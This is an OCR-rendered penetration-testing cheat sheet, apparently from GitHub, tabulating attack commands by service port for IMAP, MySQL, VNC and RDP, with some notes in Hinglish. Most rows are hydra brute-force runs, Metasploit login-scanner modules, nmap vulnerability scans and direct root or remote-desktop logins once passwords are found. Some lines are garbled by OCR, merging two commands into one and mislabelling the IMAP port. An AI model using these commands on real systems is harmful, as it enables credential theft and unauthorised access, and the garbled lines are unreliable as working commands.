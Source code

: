 
| 8] IMAP (146) |  |
| nmahydra -L users.txt -P pass.txt imap://<target>p -p 143 -sV <target> | IMAP login brute-force |
| msfconsole  |  |
| use auxiliary/scanner/imap/imap_version | IMAP version scan via Metasploit |
| use auxiliary/scanner/imap/imap_login | Login brute-force via Metasploit |
| use auxiliary/scanner/imap/imap_enum | IMAP mailbox structure enumeration (depends on creds) |
| —————————————————————— | ————————————————————————————————— |


| 9] SQL (3306) |  |
| nmap -p 3306 --script vuln 192.168.70.129   |  |
| msfconsole  |  |
| search mysql scanner login | set rhost ,userfile |
| mysql -u root -h 192.168.70.129 | show database, |
| —————————————————————— | ————————————————————————————————— |
| 10] VNC (5900) |  |
| msfconsole |  |
| search vnc 3.3 |  |
| use auxiliary/scanner/vnc/vnc_login |  |
| run kerne ke baad password mil jayega to hum nich | e wala command dal ke password dalege aur enter krege. |
| vncviewer <target ip> | target .ip |
| —————————————————————— | ————————————————————————————————— |
| 11] RDP (3389) |  |
| nmap -sC -sV  192.168.128.18 |  |
| <target ip> open RDP |  |
| rdesktop  <Target ip> | windows machine open hoga. username and password puuchega. |
| hydra -L /usr/share/wordlists/user.txt  -P  /usr/share/wordlists/passwords.txt  <Target ip> rdp | brute force rdp port using hydra |
|  |  |
|  |  |
|  |  |

# Tools Uses and Explanesion
